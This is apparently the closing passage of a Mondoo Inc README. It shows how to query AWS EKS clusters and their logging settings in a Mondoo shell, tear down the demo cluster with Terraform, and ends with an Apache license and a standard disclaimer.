# scan/shell kubernetes via aws api

```bash
export AWS_REGION=us-east-2

mondoo shell -t aws

aws.eks.clusters { * }

aws.eks.clusters { logging["ClusterLogging"].where( _["Enabled"] == true ) }
```

## Destroy the cluster

```bash
terraform destroy -auto-approve
```

## License and Author

* Author:: Mondoo Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.


